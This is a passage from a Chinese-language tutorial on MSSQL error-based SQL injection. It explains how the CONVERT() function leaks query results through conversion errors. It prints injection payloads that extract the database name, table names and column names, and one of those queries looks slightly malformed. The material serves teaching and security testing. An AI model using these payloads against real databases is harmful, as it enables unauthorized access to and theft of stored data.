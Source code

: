 ![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_30_UorhqpTf.png)

通常使用if语句来查询数据，if语句中判断True,False同布尔注入

## 报错注入
报错注入通常情况下在服务器开启报错信息返回，也就是发生错误时返回报错信息，通过特殊函数的错误使用使其参数被页面输出。
### convert()
CONVERT()函数是把⽇期转换为新数据类型的通⽤函数。
```sql
CONVERT(data_type(length),data_to_be_converted,style)
注释 ：
data_type(length) 转换为⽬标数据类型（带有可选的长度）。
data_to_be_converted 含有需要转换的值。
style 规定⽇期/时间的输出格式。
```
```sql
-- 示例
CONVERT(VARCHAR(19),GETDATE())
CONVERT(VARCHAR(10),GETDATE(),110) 
CONVERT(VARCHAR(11),GETDATE(),106)
CONVERT(VARCHAR(24),GETDATE(),113)
-- 结果
09 22 2021 11:39AM
09-22-2021
22 09 2021
22 09 2021 11:41:19:480
```
对于 convert(int,@@version)，convert 函数⾸先会执⾏第⼆个参数指定的SQL查询，然后尝试将查询结果转换为int类型。但是，由于这个SQL查询的结果是varchar类型，⽆法进⾏指定的转换，所以，convert函数会抛出 ⼀个SQL server错误消息，指出“SQL查询结果”⽆法转换为“int”类型，这样就能得到的这个SQL查询的结果了。如下所示
**查数据库**
```sql
select * from users where id = '1' and 1 = convert(int,db_name())--+
```

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_30_Y1ZB3XTP.png)

**查表名**

```sql
select * from users where id = '1' and 1 = convert(int,(select top 1 name from test..sysobjects where xtype='u'))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_30_aFyzWCgl.png)

**查列名**

```sql
select * from users where id = '1' and 1 = convert(int,(select top 1 name from test..syscolumns where id = (select id test..sysobjects where name = 'users')))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_31_LaBbPqsr.png)
